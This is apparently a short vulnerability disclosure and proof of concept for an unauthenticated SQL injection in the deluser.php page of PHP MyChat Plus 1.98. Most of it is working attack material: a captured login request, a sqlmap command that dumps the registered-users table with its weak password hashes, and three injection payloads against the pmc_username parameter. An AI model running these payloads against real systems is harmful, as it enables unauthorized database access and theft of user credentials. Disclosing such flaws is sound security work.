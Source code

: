 The PHP MyChat Plus 1.98 application is vulnerable to SQL Injection without authentication through the "deluser.php" page.

Capture the request through burpsuite:

````
POST /plus/deluser.php HTTP/1.1

Host: HOSTNAME

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://HOSTNAME/plus/deluser.php

Content-Type: application/x-www-form-urlencoded

Content-Length: 77

Connection: close

Cookie: CookieLang=english; temp=temp; CookieUsername=testing; CookieRoom=Public%2BRoom%2B1; CookieRoomType=1; CookieStatus=r; PHPSESSID=0srffkdt9nu2jis443pp9nh3i9

Upgrade-Insecure-Requests: 1



L=english&Link=&LIMIT=0&pmc_username=test&pmc_password=test&login_form=Log+In
````
Then save that request to disk and run SQL Map with the following parameters:
````
sqlmap -r deleteuserlogin.req --level=5 --risk=3 --dbms=mysql --tamper=unmagicquotes -D DBNAME --dump -T c_reg_users -p pmc_username
````

This will dump all the users and the very weak hashes.

````

POC URLS for the injection:
---
Parameter: pmc_username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: L=english&Link=&LIMIT=0&pmc_username=test' AND 9736=(SELECT (CASE WHEN (9736=9736) THEN 9736 ELSE (SELECT 2847 UNION SELECT 9983) END))-- qEHq&pmc_password=test&login_form=Log In

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: L=english&Link=&LIMIT=0&pmc_username=test' OR (SELECT 7708 FROM(SELECT COUNT(*),CONCAT(0x7170627a71,(SELECT (ELT(7708=7708,1))),0x7162627a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- ShDx&pmc_password=test&login_form=Log In

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: L=english&Link=&LIMIT=0&pmc_username=test' AND (SELECT 5588 FROM (SELECT(SLEEP(5)))wWnk)-- FHPh&pmc_password=test&login_form=Log In
---
````

CVSS Score: https://cvssjs.github.io/#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:N/A:L (Critical)
